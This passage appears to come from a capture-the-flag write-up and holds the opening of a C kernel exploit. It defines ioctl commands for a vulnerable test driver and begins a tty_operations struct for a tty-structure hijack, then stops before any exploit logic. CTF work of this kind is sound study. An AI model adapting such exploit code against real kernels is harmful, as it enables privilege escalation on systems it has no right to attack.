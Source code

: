 The final exploit will be
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <sched.h>
#include <errno.h>
#include <pty.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/sem.h>

#define COMMAD_ALLOC 0x13371338
#define COMMAD_READ  0x13371339
#define COMMAD_WRITE 0x1337133A
#define COMMAD_FREE  0x1337133D
#define COMMAD_RALLO 0x1337133F

char buf[0x2000];

struct Chunk{
    char name[0x20];
    unsigned long size;
};

struct Chunk2{
    char name[0x20];
    char* buf;
    unsigned long size;
};

struct tty_operations
{
    struct tty_struct *(*lookup)(struct tty_driver *, struct file *, int); /*     0     8 */
    int (*install)(struct tty_driver *, struct tty_struct *);              /*     8     8 */
    void (*remove)(struct tty_driver *, struct tty_struct *);              /*    16     8 */
    int (*open)(struct tty_struct *, struct file *);                       /*    24     8 */
    void (*close)(struct tty_struct *, struct file *);                     /*    32     8 */
    void (*shutdown)(struct tty_struct *);                                 /*    40     8 */
    void (*cleanup)(struct tty_struct *);                                  /*    48     8 */
    int (*write)(struct tty_struct *, const unsigned char *, int);         /*    56     8 */
    /* --- cacheline 1 boundary (64 bytes) --- */
    int (*put_char)(struct tty_struct *, unsigned char);                            /*    64     8 */
    void (*flush_chars)(struct tty_struct *);                                       /*    72     8 */
    int (*write_room)(struct tty_struct *);                                         /*    80     8 */
    int (*chars_in_buffer)(struct tty_struct *);                                    /*    88     8 */
    int (*ioctl)(struct tty_struct *, unsigned int, long unsigned int);             /*    96     8 */
    long int (*compat_ioctl)(struct tty_struct *, unsigned int, long unsigned int); /*   104     8 */
    void (*set_termios)(struct tty_struct *, struct ktermios *);                    /*   112     8 */
```